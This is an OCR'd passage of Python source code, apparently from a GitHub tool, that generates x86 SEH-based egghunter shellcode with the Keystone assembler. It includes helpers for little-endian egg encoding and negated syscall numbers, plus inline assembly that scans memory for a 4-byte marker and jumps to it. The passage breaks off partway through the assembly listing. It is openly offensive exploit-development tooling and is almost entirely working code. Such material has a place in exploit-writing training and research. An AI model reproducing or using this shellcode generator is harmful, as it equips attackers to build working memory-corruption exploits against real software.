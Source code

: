 ```
    parser.add_argument('-o', '--output', help='Output file of the founded results, e.x: -o "C:\\output.txt".')
    return parser.parse_args()

def calculate_negated_syscall(syscall_num):
    syscall_int = int(syscall_num, 16)
    negated_syscall = 0x100000000 - syscall_int
    return format(negated_syscall, '08x')

def string_to_hex(str_value):
    return ''.join(format(ord(c), '02x') for c in str_value)

def to_little_endian(hex_string):
    byte_array = bytes.fromhex(hex_string)
    little_endian_bytes = byte_array[::-1]
    little_endian_hex = little_endian_bytes.hex()
    return little_endian_hex

def generate_egghunter(CODE):
    ks = Ks(KS_ARCH_X86, KS_MODE_32)
    encoding, count = ks.asm(CODE)
    instructions = ""
    for dec in encoding:
        instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
    return (encoding, instructions)

def egghunter_seh(egg):
    nop_count_before = ARGS.nopbefore
    nop_count_after = ARGS.nopafter

    if not egg or len(egg) != 4:
        print("[!] The EGG must be provided and be exactly 4 characters long.")
        return

    hex_word = string_to_hex(egg)
    little_endian = to_little_endian(hex_word)

    CODE = (
        "	start: 									 "
        "		jmp get_seh_address 				;"
        "	build_exception_record: 				 "
        "		pop ecx 							;"
        f"		mov eax, 0x{little_endian}			;"
        "		push ecx 							;"
        "		push 0xffffffff 					;"
        "		xor ebx, ebx 						;"
        "		mov dword ptr fs:[ebx], esp 		;"
        "	is_egg: 								 "
        "		push 0x02 							;"
        "		pop ecx 							;"
        "		mov edi, ebx 						;"
        "		repe scasd 							;"
        "		jnz loop_inc_one 					;"
        "		jmp edi 							;"
        "	loop_inc_page: 							 "
        "		or bx, 0xfff 						;"
        "	loop_inc_one: 							 "
        "		inc ebx 							;"
        "		jmp is_egg 							;"
        "	get_seh_address: 						 "
        "		call build_exception_record 		;"
        "		push 0x0c 							;"
        "		pop ecx 							;"
```